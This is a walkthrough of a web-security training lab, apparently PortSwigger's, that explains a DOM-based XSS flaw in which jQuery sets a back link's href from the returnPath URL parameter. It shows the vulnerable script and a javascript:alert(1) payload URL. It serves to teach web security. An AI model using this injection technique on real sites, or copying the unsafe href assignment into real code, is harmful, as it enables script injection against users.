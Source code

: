 # DOM XSS in jQuery anchor href atribute sink using locationSearch source

> ****\*\*****\*\*\*\*****\*\*****Instructions****\*\*****\*\*\*\*****\*\*****
>
> This lab contains a [DOM-based cross-site scripting](<../../Cross-site%20Scripting%20(XSS)/Sub_Pages/DOM-based%20XSS.md>) vulnerability in the submit feedback page. It uses the jQuery library's `$` selector function to find an anchor element, and changes its `href` attribute using data from `location.search`.
>
> To solve this lab, make the "back" link alert `document.cookie`.

Access the **\*\*\*\***\*\***\*\*\*\***Home Page**\*\*\*\***\*\***\*\*\*\***, there is an \***\*\*\*\*\*\*\***anchor\***\*\*\*\*\*\*\*** tag `a` named ****\*\*****\*\*\*\*****\*\*****Submit feedback****\*\*****\*\*\*\*****\*\***** with the `href` attribute:

![Untitled](DOM%20XSS%20in%20jQuery%20anchor%20href%20attribute%20sink%20using%20%locationSearch%20source%20images/Untitled.png)

```html
<a href="/feedback?returnPath=/">Submit feedback</a>
```

Click the anchor ******\*\*******\*\*******\*\*******Submit feedback******\*\*******\*\*******\*\******* and you will be routed to the feedback page

![Untitled](DOM%20XSS%20in%20jQuery%20anchor%20href%20attribute%20sink%20using%20%locationSearch%20source%20images/Untitled%201.png)

Now, press `Ctrl + U` to view the Page’s Source and you would notice 2 points:

- The `href` attribute has been changed to:
  ```html
  <a href="/feedback?returnPath=/feedback">Submit feedback</a>
  <p>|</p>
  ```
- And scroll down below, there is a `script` using \***\*\*\*\*\*\*\***jQuery\***\*\*\*\*\*\*\*** library within the `attr()` function:
  ```jsx
  $(function () {
    $("#backLink").attr(
      "href",
      new URLSearchParams(window.location.search).get("returnPath")
    );
  });
  ```

The script would take the value from `?returnPath=` from the URL and then parse that value into the `href` attribute of the `#backLink` element which is the `< Back` button below

![Untitled](DOM%20XSS%20in%20jQuery%20anchor%20href%20attribute%20sink%20using%20%locationSearch%20source%20images/Untitled%202.png)

```jsx
<a id="backLink" href="/feedback">
  Back
</a>
```

Click on the URL bar → press `END` to move the pointer to the end of the line → Remove the `/feedback` value and modify it with the malicious script:

```jsx
https://0aba006803a4c6ba81ab116a001400be.web-security-academy.net/feedback?returnPath=javascript:alert(1)
```

Press `Enter` to submit the change → Right-click to inspect the element of anchor ******\*\*******\*\*******\*\*******Submit Feedback******\*\*******\*\*******\*\******* → Verify that the `href` attribute has been changed with the `alert()` function:

![Untitled](DOM%20XSS%20in%20jQuery%20anchor%20href%20attribute%20sink%20using%20%locationSearch%20source%20images/Untitled%203.png)

```jsx
<a href="/feedback?returnPath=javascript:alert(1)">Submit feedback</a>
```

Do the same with the `< Back` button

![Untitled](DOM%20XSS%20in%20jQuery%20anchor%20href%20attribute%20sink%20using%20%locationSearch%20source%20images/Untitled%204.png)

```jsx
<a id="backLink" href="javascript:alert(1)">
  Back
</a>
```

Click the `< Back` button and it will display an alert pop-up window

![Untitled](DOM%20XSS%20in%20jQuery%20anchor%20href%20attribute%20sink%20using%20%locationSearch%20source%20images/Untitled%205.png)
